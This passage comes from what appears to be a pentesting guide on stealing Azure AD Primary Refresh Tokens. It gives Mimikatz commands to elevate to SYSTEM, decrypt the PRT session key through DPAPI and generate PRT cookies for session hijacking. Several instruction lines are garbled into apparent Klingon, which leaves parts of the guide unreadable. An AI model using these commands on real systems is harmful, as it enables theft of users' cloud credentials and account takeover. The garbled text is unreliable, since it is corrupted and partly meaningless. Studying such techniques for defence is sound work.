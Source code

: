 {% hint style="info" %}
If you don’t see any PRT data it could be that you **don’t have any PRTs** because your device isn’t Azure AD joined or it could be you are **running an old version** of Windows 10.
{% endhint %}

To **decrypt** the session key you need to **elevate** your privileges to **SYSTEM** to run under the computer context to be able to use the **DPAPI masterkey to decrypt it**. You can use the following commands to do so:
```
token::elevate
dpapi::cloudapkd /keyvalue:[PASTE ProofOfPosessionKey HERE] /unprotect
```
#### Option 1 - Full Mimikatz

* NuqneH, jatlh 'ej Context qutlh:

<figure><img src="../../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

* 'ej derived key qutlh:

<figure><img src="../../../.gitbook/assets/image (15) (1).png" alt=""><figcaption></figcaption></figure>

* pIm 'ej pongwIj cookies **generate** vaj:
```bash
Dpapi::cloudapkd /context:[CONTEXT] /derivedkey:[DerivedKey] /Prt:[PRT]
```